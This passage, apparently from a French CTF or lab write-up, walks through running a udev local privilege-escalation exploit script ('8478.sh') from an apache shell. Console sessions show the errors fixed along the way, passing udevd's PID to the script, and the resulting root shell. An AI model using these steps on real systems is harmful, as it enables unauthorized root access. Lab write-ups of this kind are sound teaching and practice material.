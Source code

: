 Premier essai : raté, il faut ajouter la permission d'exécution au fichier.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: Permission denied
bash-3.2$ chmod +x 8478.sh
chmod +x 8478.sh
```

Deuxième essai : raté, il y a un petit souci de syntaxe facilement résoluble en une ligne de commande.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: /bin/sh^M: bad interpreter: No such file or directory
bash-3.2$ sed -i -e 's/\r$//' 8478.sh
sed -i -e 's/\r$//' 8478.sh
```

Troisième essai : il aurait fallu que je lise attentivement le modop de cet exploit.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ./8478.sh
./8478.sh
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
./8478.sh: line 131: 18439 Segmentation fault      /tmp/udev $1

bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

En effet, il faut passer le PID du gestionnaire de périphériques _udev_ en paramètre du script.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ps -ef | grep udev
ps -ef | grep udev
root       379     1  0 07:10 ?        00:00:00 /sbin/udevd -d

bash-3.2$ ./8478.sh 379
./8478.sh 379
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
sh-3.2#

sh-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache)
```
